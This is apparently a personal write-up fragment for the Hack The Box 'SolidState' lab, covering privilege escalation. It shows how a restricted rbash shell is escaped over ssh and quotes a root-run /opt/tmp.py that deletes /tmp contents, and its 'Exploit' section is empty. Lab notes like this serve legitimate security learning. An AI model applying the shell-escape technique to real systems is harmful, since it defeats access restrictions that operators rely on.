


# 20 - PrivEsc


# Restricted ssh

```bash
mindy@solidstate:~$ echo $SHELL
/bin/rbash
mindy@solidstate:~$ /bin/bash
-rbash: /bin/bash: restricted: cannot specify `/' in command names
```

# Environment
```sql
mindy@solidstate:~$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
mindy@solidstate:~$ PATH=$PATH:/bin
-rbash: PATH: readonly variable
```

# Escaping rbash
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
```bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/solidstate/exploit]
└─$ ssh -l mindy 10.10.10.51 -t "bash --noprofile"   
```


# tmp.py in /opt 


# tmp.py
```
mindy@solidstate:/opt$ cat tmp.py 
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

# Exploit
